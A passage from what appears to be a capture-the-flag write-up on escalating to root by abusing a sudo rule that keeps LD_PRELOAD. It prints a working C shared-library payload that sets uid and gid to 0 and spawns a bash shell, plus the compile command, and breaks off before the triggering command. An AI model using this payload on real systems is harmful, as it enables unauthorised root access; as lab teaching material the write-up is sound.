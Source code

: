 Let's use our trusty LinPEAS script again to see if we can enumerate other privesc vectors with the webdeveloper account:

![screenshot23](../assets/images/road/screenshot23.png)

`env_keep+=LD_PRELOAD` was flagged out as an important privesc vector.

I didn't know what **LD_PRELOAD** and **env_keep** was, so I did some research.

---

*From: https://book.hacktricks.xyz/linux-unix/privilege-escalation*

***LD_PRELOAD** is an optional environmental variable containing one or more paths to shared libraries, or shared objects, that the loader will load before any other shared library including the C runtime library (libc.so) This is called preloading a library.*

*If you find inside the output of sudo -l the sentence: env_keep+=LD_PRELOAD and you can call some command with sudo, you can escalate privileges.*

***env_keep** allows for the preservation of environment variables when using `sudo`.*

---

The following exploitation method is from this [site](https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/).

To escalate our privileges, we first create a C file (I called it **pe.c**) in the /tmp directory:

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```

This script defines the **_init()** function, which will set the gid and uid to 0 (root) and then create a bash shell, thus opening a root shell.

Next, we compile the file:

```
cd /tmp
gcc -fPIC -shared -o pe.so pe.c -nostartfiles
```

This will generate a shared library file called **pe.so**.

Finally, we can trigger the exploit by running the following command. Note that we have to use a program that we can run with `sudo`, which in this case is `/usr/bin/sky_backup_utility`:
